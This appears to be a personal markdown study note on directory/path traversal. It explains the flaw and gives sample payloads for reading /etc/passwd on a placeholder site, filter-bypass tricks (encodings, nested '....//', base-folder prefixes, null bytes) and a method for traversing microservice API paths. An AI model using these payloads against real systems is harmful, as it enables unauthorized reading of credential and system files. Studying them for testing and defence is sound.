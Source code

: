 # Directory Traversal

![Directory-traversal.png](Directory%20Traversal%201f22da87c07d4335bd464bd472f4c98a/Directory-traversal.png)

## what is Directory Traversal/Path Traversal

- it is also known as `path-traversal` vulnerability that include application `data,code,credentials,sensitive os files`
- if some of these files have write permission, allowing attacker to modify the content of the file and take full control of the server.

## reading arbitrary files via directory traversal

```
<img src="/loadImage?filename=218.png">

```

in this request send to `?filename=` parameter which we can exploit by traversing path like

```
<https://vuln-web.com/Loadimage?filename=../../../../etc/passwd>(or any sysfiles)

```

## prevention

- to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way.

# exploitation

- Many applications that place user input into file paths implement some kind of defense against path traversal attacks, and these can often be circumvented.
- if application blocks or strips directory traversal sequence there is many bypassing technique is available
- we might directly access absolute path `file=/etc/passwd` with out using any traversal.
- You might be able to use various non-standard encoding, such as `..%c0%af` or `..%252f`, to bypass the input filter.
- [filter-bypass-technique](https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki)
- might user `....//`or `....\\\\`if one `..../ or ....\\` is blocked than after removing them we traverse it.
- If an application requires that the user-supplied filename must start with the expected base folder, such as `/var/www/images`, then it might be possible to include the required base folder followed by suitable traversal sequences. For example:`filename=/var/www/images/../../../etc/passwd`
- If an application requires that the user-supplied filename must end with an expected file extension, such as `.png`, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:`filename=../../../etc/passwd%00.png`

eg. we found URL
`https://app.com/api/v1/user?id=1337`

- most of people try to find SQL Injection on this endpoint
- but some `microservice architecture` use that as Path to the internal eg

```
Folow of the reqest
Hacker: <https://app.com/api/v1/user?id=1337>
Microservice: <https://user-service.app.internal/users/1337>
Content-Returned to User

```

PAth Traversal

```
Hacker <https://app.com/api/v1/user?id=1337/../../../>
Microservice: <https://user-service.app.internal/user/1337/../../../>
	url normalise to <https://user-service.app.internal/>
Content-returned to Hacker

```

Try to Request it with all methods, GET,POST, PUT,DELETE,PATCH, HEAD

- after path traversal do some fuzzing in path to detect any other end point that have been used for other API endpoint
- the new APi endpoint we have found after path traversal fuzzing, there new functionality that may be have critical vulnerability.